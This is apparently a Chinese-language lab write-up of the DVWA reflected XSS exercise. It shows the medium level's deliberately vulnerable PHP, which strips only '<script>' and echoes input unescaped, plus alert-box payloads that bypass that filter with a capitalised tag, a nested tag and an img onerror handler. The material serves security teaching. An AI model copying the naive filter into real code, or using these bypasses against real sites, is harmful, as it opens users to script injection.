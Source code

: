 发现没有什么防御，直接`<script>alert('xss');</script>`

<img src="https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230803202324463.png" alt="image-20230803195243810" style="zoom:33%;" />



### Medium级别

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}
?> 
```

发现源码过滤了`<script>`,可以通过大写字母，双写，输入其他可执行弹窗的标签等方法来实现攻击.

如果用`<script>alert('xss')</script>`会直接显示alert('xss')

```js
//大写
<Script>alert('xss')</script>

//双写
<sc<script>ript>alert('xss')</script>

<img src=1 οnerrοr=alert('xss');>
```
